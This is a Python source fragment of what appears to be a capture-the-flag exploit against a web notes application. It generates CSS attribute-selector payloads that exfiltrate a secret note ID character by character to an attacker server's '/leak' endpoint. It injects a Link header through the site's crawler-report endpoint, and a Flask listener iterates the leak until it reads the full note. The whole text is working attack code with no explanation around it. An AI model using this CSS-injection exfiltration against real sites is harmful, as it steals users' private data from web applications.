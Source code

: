 ```python
    "http":"http://127.0.0.1:8080"
}

def build_payload(prefix: str, candidates: "List[str]"):
    global EXPLOIT_BASE_ADDR
    assert EXPLOIT_BASE_ADDR != "", "EXPLOIT_BASE_ADDR is not set"

    payload = "{}"
    for candidate in candidates:
        id_prefix_to_try = prefix + candidate
        matcher = ''.join(map(lambda x: '\\' + hex(ord(x))
                              [2:], '/notes/' + id_prefix_to_try))
        payload += "a[href^=" + matcher + "] { background-image: url(" + EXPLOIT_BASE_ADDR + "/leak?q=" + urllib.parse.quote(id_prefix_to_try) + "); }"
    return payload


def post_note(title: str, description: str) -> str:
    r = s.post(TARGET_BASE + "/notes", data={
        "title": title,
        "description": description,
    }, headers={
        "content-type": "application/x-www-form-urlencoded"
    }, allow_redirects=False)
    assert r.status_code == 302, "invalid status code: {}".format(
        r.status_code)
    return r.headers['Location'].split('/notes/')[-1]


def report_note_as_stylesheet(id: str) -> None:
    header_value = '</notes/{}>; rel="stylesheet"; type="text/css"'.format(id)
    r = s.post(TARGET_BASE + "/tell", data={
        "path": "/?k=Link&v={}".format(urllib.parse.quote(header_value)),
    }, allow_redirects=False)
    assert r.status_code == 302, "invalid status code: {}".format(
        r.status_code)
    return None


@app.route("/start")
def start():
    p = build_payload("", CHAR_CANDIDATES)
    exploit_id = post_note("exploit", p)
    report_note_as_stylesheet(exploit_id)
    print("[info]: started exploit with a new note: {}/notes/{}".format(TARGET_BASE, exploit_id))
    return ""


@app.route("/leak")
def leak():
    leaked_id = request.args.get('q')
    if len(leaked_id) == LEAK_LENGTH:
        print("[+] leaked (full ID): {}".format(leaked_id))
        r = s.get(TARGET_BASE + "/notes/" + leaked_id)
        print(r.text)
    else:
        print("[info] leaked: {}{}".format(
            leaked_id, "*" * (LEAK_LENGTH - len(leaked_id))))

        p = build_payload(leaked_id, CHAR_CANDIDATES)
        exploit_id = post_note("exploit", p)
        report_note_as_stylesheet(exploit_id)
        print("[info]: invoked crawler with a new note: " + exploit_id)
```